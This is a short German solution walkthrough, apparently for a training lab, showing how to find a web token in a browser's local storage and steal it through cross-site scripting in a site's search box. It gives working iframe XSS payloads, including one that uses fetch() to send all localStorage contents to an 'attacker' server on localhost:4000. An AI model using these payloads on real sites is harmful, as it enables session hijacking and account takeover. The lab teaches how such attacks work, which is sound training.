

# Lösungsschritte

## Speichertort des Web Tokens

1. Öffnen Sie die Browser-Entwickler-Tools mit `F12`

2. Klicken Sie auf den Reiter `Application`. Wählen Sie die Storage Option `Local storage` aus, dort finden Sie einen Eintrag `token`



## Ausführen der XSS-Attacke

1. Mit einem Klick auf die Lupe erscheint ein Eingabefeld - die globale Suche.
2. Dort geben Sie folgende Zeichenkette ein:
`<iframe src="javascript:alert('XSS Attacke erfolgreich')">` 

Daraufhin sollte eine Dialogbox erscheinen:


## Auslesen den Web Tokens

1. Nun können Sie die Zeichenkette so verändern, dass der Web Token innerhalb der Dialogbox erscheint:

`<iframe src="javascript:alert(JSON.stringify(localStorage))">`

2. Starten Sie den Attacker Webserver mit `npm start`

3. Verändern Sie die Zeichenkette erneut, sodass der Web Token nun an Ihren Attacker Web Server gesendet wird:
```
<iframe src="javascript:fetch(`http://localhost:4000?data=${JSON.stringify(localStorage)}`)">
```

4. Rufen Sie nun `http://localhost:4000/` in ihrem Web Browser auf, sie sollten dort nun den gestohlenen Web Token wieder finden:
